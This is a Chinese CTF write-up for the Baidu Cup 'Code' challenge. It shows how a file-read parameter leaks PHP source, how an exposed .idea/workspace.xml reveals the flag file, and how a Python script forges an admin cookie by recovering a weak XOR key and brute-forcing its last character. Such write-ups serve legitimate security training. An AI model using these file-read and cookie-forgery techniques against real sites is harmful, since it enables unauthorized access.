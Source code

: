 # Code

## 题目描述
---
```
考脑洞，你能过么？
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---
50

## 部署方式
---


## 解题思路
---

![](images/ctf-2021-06-09-13-25-30.png)

进入题目后看到`jpg`参数，猜测可以读文件，读一下

![](images/ctf-2021-06-09-13-24-51.png)

得到了`index.php`的base64码，解码后

```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=hei.jpg');
$file = $_GET['jpg'];
echo '<title>file:'.$file.'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","_", $file);
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";

/*
 * Can you find the flag file?
 *
 */

?>
```

可以看到让寻找flag文件，使用路径爆破工具扫描，发现存在`.idea`工程文件

访问
http://e7cdc5935f8c4dadb1e189314dbac34a951b6c52726b47cd.changame.ichunqiu.com/.idea/workspace.xml 得到

![](images/ctf-2021-06-09-13-43-40.png)

flag应该就在`fl3g_ichuqiu.php`文件中，使用index.php源码，要将`_`替换为`config`，所以有

![](images/ctf-2021-06-09-13-50-21.png)

解码Base64，得到

```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
error_reporting(E_ALL || ~E_NOTICE);
include('config.php');
function random($length, $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz') {
    $hash = '';
    $max = strlen($chars) - 1;
    for($i = 0; $i < $length; $i++)	{
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}

function encrypt($txt,$key){
    for($i=0;$i<strlen($txt);$i++){
        $tmp .= chr(ord($txt[$i])+10);
    }
    $txt = $tmp;
    $rnd=random(4);
    $key=md5($rnd.$key);
    $s=0;
    for($i=0;$i<strlen($txt);$i++){
        if($s == 32) $s = 0;
        $ttmp .= $txt[$i] ^ $key[++$s];
    }
    return base64_encode($rnd.$ttmp);
}
function decrypt($txt,$key){
    $txt=base64_decode($txt);
    $rnd = substr($txt,0,4);
    $txt = substr($txt,4);
    $key=md5($rnd.$key);

    $s=0;
    for($i=0;$i<strlen($txt);$i++){
        if($s == 32) $s = 0;
        $tmp .= $txt[$i]^$key[++$s];
    }
    for($i=0;$i<strlen($tmp);$i++){
        $tmp1 .= chr(ord($tmp[$i])-10);
    }
    return $tmp1;
}
$username = decrypt($_COOKIE['user'],$key);
if ($username == 'system'){
    echo $flag;
}else{
    setcookie('user',encrypt('guest',$key));
    echo "╮(╯▽╰)╭";
}
?>
```

`guest` 的加密结果是 `NTZUTBcZWUxK` 

![](images/ctf-2021-06-09-13-56-30.png)

由于题目中的key使用了md5进行hash，所以想直接求出key是不可能的，但是可以通过包里手段将key值的范围进行覆盖，找出所有密文空间进行爆破，代码如下。

```php
# -*- coding:utf8 -*-
import base64
import requests

import string

url = "http://e7cdc5935f8c4dadb1e189314dbac34a951b6c52726b47cd.changame.ichunqiu.com/fl3g_ichuqiu.php"

crypt = 'Y0o1dUJLC01N'
text = 'guest'
crypt = base64.b64decode(crypt)
rnd = crypt[0:4]
crypt = crypt[4:]
tmp = ''

for i in range(5):
    tmp += chr(ord(text[i]) + 10)

# key hash后的前五位可以通过算法确认出来，第六位要进行爆破
key = ''
for i in range(5):
    key += chr(ord(tmp[i]) ^ ord(crypt[i]))

cookies = []
system = 'system'
tt = ''

for i in range(6):
    tt += chr(ord(system[i]) + 10)

for i in '0123456789abcdef':        #这里为啥是"1-f"，因为md5最终返回的数值是16进制对应的字符是0~9 a~f,所以这里范围为这一段
    true_key = key + i
    tmp = ''
    for i in range(6):
        tmp += chr(ord(true_key[i]) ^ ord(tt[i]))
    cookies.append(base64.b64encode(rnd + tmp))
    
for i in cookies:
    cookie = {'user' : i}
    r = requests.session()
    result = r.get(url, cookies = cookie)   
    print result.text
```

![](images/ctf-2021-06-09-14-11-54.png)
## 参考
---
